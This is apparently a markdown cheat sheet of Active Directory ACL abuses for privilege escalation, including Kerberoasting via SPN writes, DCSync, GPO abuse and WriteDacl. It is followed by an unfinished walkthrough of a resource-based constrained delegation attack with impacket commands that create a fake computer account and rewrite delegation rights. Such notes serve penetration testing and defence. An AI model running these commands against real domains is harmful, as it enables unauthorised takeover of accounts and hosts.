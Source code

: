 Misconfigurations relative to ACL of AD objects could bring an attacker to elevate his privileges in domain or forest. Let's do a list of common misconfigs::
- **Changing user password**:
	- *User-Force-Change-Password* or *GenericAll* 
- **Making user Kerberoasteable**:
	- *WritePropertyExtended* o *GenericWrite* o *GenericAll* required on user object. If we can write an SPN in the **ServicePrincipalName** property of a user object, the latter is in fact *kerberoastable*
- **Executing malicious scripts**:
	- *WriteProperty*, *GenericWrite* o *GenericAll* required on user object. By modifying a user's `ScriptPath` property, we can set a malicious file that will be executed the next time the user logons
- **Adding users to a group**:
	- *WriteProperty*, *GenericWrite* o *GenericAll* required on group object. By modifying the `members` property of a group, we can add any member to a group. If we have the *Self(Self-Membership)* permission, we can add the current user to a group
	- **Kerberos Resource-based Constrained Delegation**: *WriteProperty*, *GenericWrite* o *GenericAll* required on computer object. It consists of editing `msDS-AllowedToActOnBehalfOfOtherIdentity` property of a computer account
- **LAPS password**
- **DCSync attack**: 
	- if we have extended `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` permissions on a domain object, we can perform a *DCSync* attack and dump the contents of the database
- **GPO abuse**:
	- *WriteProperty*, *GenericWrite* o *GenericAll*  required on Group Policy Container. By modifying the `GPC-File-Sys-Path` property of a Group Policy Container we can modify the GPO and execute code on the computers involved in the GPO
- **Editing ACL**:
	- *WriteDacl* or *GenericAll* required. With such permissions we can create ACLs to give any permission to objects and perform any of the above attacks. Furthermore, if we have *WriteOwner* permission, since the object owner implicitly has *WriteDacl* permission, we can change the object owner to the one we control and then modify the ACLs

### KerberosResource-BasedConstrainedDelegation

**Requirements**:
- *GenericAll*/*GenericWrite*/*Write* on Computer object

Credit: [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack).

Step 1: creating a fake computer. *addcomputer.py* from *impacket* suite can be used

```shell
python3 examples/addcomputer.py -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip <IP DC> <DOMAIN>/<USER>:<PASSWORD>
```

Step 2: abusing of  target's `msDS-AllowedToActOnBehalfOfOtherIdentity` property. *rbcd.py* from repository can be used

```shell
python3 ./rbcd.py -f EVILCOMPUTER -t <COMPUTER OBJECT HOSTNAME> -dc-ip <IP DC> <NetBIOS DOMAIN NAME>\\<USERNAME>:<PASSWORD>
```

Step 3: a *Request impersonated Service Tickets (S4U)* is required for computer target. *getST.py* from *impacket* suite can be used
